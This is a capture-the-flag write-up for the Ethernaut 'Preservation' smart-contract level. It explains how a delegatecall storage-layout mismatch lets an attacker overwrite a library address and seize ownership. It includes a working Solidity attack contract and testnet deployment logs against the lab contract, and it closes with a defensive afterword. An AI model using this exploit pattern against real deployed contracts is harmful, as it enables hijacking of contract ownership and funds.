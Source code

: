 # 16 - Preservation

## Challenge

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Understanding what it means for `delegatecall` to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## Summary

Before reading the level contract, first go through the new concepts introduced in the challenge description. There is a very nice [article](https://celo.academy/t/preventing-vulnerabilities-in-solidity-delegate-call/38) on `delegatecall`, how it works and its main vulnerabilities.

`delegatecall` has a property known as "context preservation". This means that the `delegatecall` will execute in the context of the calling contract. The code is executed in the context of the caller rather than the callee. There are 2 main vulnerabilities of `delegatecall` as indicated in the article:

- The context-preserving nature of DelegateCall
- Ensuring that the storage layout of both the Caller and Receiver is the same.

The detailed example, code and explanation can be seen in the article so I won't repeat here. Now let's go back to the level contract.

Firstly, there's `contract LibraryContract` which will be called in `delegatecall` from `timeZone1Library` or `timeZone2Library`. We now know that contract is vulnerable if the caller and callee have different storage layout.

```js
contract Preservation {
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
}

contract LibraryContract {
  uint storedTime;  
}
```

Apparently we have a similar scenario here, since `Preservation` has 4 storage variables while `LibraryContract` has only 1. This means that we can potentially exploit it according to the article. To set `owner` we can do the following things:

1. Write an attack contract that has the same layout as `Preservation` and will implement an `attack` function that calls `setFirstTime` twice. It also needs `setTime` function for later usage:

```js
function attack() public {
    // override address of timeZone1Library
    preservation.setFirstTime(uint(address(this)));
    // call setFirstTime again with any number as input.
    preservation.setFirstTime(1);
}

function setTime(uint _time) public {
    owner = tx.origin;
}
```

2. When `attack` is called from attack contract, we first call `preservation.setFirstTime(uint(address(this)))`. the following code in `Preservation` is executed:

```js
function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
}
```

This calls into `LibraryContract`, which sets `storedTime` to `address(this)`. Since `LibraryContract` has the same storage layout as `Preservation`, this will update `timeZone1Library` with the address of the attack contract.

3. Now, if we call `preservation.setFirstTime(1);`, it makes a `delegatecall` to `LibraryContract` by using the value stored in the `LibraryContract` state variable. However, the value has been updated by the previous call. This means the function will make a `delegatecall` to the attack contract.

4. This means we will call this:

```js
function setTime(uint _time) public {
    owner = tx.origin;
}
```

Which `owner` will be updated? Since we execute everything from `preservation`, the `Preservation` contract's `owner` will be updated to `tx.origin`, which is actually us. Now we claim ownership of the contract.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0x759699ae49B8b33112316d8F6Bd30e0E334498ce'
```

Check some level information:

```js
> await contract.owner()
'0x2754fA769d47ACdF1f6cDAa4B0A8Ca4eEba651eC'
> await contract.timeZone1Library()
'0x9f6F8698306cA3FE9135979bFfba4186032Cb61e'
```

Deploy contract:

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IPreservation {
    function setFirstTime(uint _timeStamp) external;
}

contract Attack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 
    uint storedTime;

    IPreservation preservation;

    constructor(address _addr) {
        preservation = IPreservation(_addr);
    }

    function attack() public {
        // override address of timeZone1Library
        preservation.setFirstTime(uint256(uint160(address(this))));
        // call the function with any number as input.
        preservation.setFirstTime(1);
    }

    function setTime(uint _time) public {
        owner = tx.origin;
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['Attack']
>>>
>>> attackContract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> attackContract.deploy(contract_addr)
2023-06-22 22:34:01.217 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-06-22 22:34:07.339 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0x62505DCa806E53Cde958514F4c176074a444c370
```

Code is pretty much what we explained before. Now we just call into `attack`:

```py
>>> attackContract.functions.attack().send_transaction()
2023-06-22 22:34:16.512 | INFO     | cheb3.contract:send_transaction:236 - (0x62505DCa806E53Cde958514F4c176074a444c370).attack transaction hash: 0x83a4b5b49fb2a33c0facb459c33af4ac88d0e3c05f43370e891e7a072bcdb307
```

As mentioned before, first `setFirstTime` will update `timeZone1Library` with the address of the attack contract. Then the second call will call into the attack contract, which will update `owner` in `Preservation`.

```js
> await contract.timeZone1Library()
'0x62505DCa806E53Cde958514F4c176074a444c370' // same as deployed attack contract address
> await contract.owner()
'0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB' // us
```

Finally, submit the instance to pass the level.

## Afterword

As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.
